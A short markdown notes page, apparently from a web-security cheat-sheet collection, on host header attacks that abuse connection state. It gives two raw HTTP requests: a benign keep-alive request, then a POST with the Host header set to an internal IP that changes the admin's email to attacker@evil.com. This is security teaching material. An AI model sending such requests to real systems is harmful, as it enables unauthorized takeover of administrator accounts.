 ```yaml
---
title: Host Header Attack
description: 
tags:
    - Web
refs:
    - https://portswigger.net/web-security/host-header/exploiting
date: 2023-06-11
draft: false
---
```


## Abuse Connection State

If the web server validates only the first request, we may be able to exploit the second request by keeping the connection and changing the **Host** header to the internal page.  

### 1. Send the First Request

```bash
GET / HTTP/2
Host: example.com
...
Connection: keep-alive

```

### 2. Send the Second Request.

```bash
POST /admin/change-email HTTP/2
Host: 192.168.0.1

email=admin@example.com&new_email_1=attacker@evil.com&new_email_2=attacker@evil.com
```

As a result, we may be able to change the admin's email to arbitrary email.